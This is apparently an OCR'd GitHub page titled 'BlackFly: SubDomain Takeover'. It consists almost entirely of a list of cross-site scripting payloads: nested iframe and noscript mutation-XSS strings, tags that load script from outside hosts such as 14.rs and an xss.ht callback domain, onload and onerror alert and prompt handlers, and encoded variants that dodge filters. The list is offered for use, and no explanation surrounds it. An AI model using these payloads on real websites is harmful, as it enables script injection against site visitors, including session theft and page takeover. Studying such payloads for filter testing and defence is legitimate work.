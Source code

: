 <h1>BlackFly</h1>

SubDomain Takeover


<iframe><iframe><b><noscript>&lt;/noscript&gt;<x v-bind:is="'script'" src="//14.rs" /></noscript></b></iframe>
<iframe><iframe></iframe></iframe><b><noscript></noscript><iframe onload="setTimeout(/alert(26)/.source)"></iframe></b>
<iframe><iframe><iframe onload="setTimeout(/alert(26)/.source)"></iframe>
<iframe><iframe onload="setTimeout(/alert(27)/.source)">
<FRAMESET><FRAMESET><b><noscript></noscript><x is=script src=//⑭.₨></noscript></b></FRAMESET>
<IFRAME><IFRAME><b><noscript></noscript><x is=script src=//14.rs></noscript></b></IFRAME>
<iframe><iframe><b><noscript></noscript><x is=script src=//14.rs></noscript></b></iframe>
<iframe><iframe><b><noscript></noscript><x is=script src=//blackfly06.xss.ht></noscript></b></iframe>
  "/></a></><img src=1.gif onload=prompt(28);>
 <script>window['alert'](document['domain'])</script>
<div id = "x"></div><script>alert(x.parentNode.parentNode.parentNode.location)</script>
<svg onload=prompt%26%230000000040document.domain)>
"><textarea autofocus onfocus=co\u006efir\u006d()>"><iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;document.domain&rpar;&gt;">
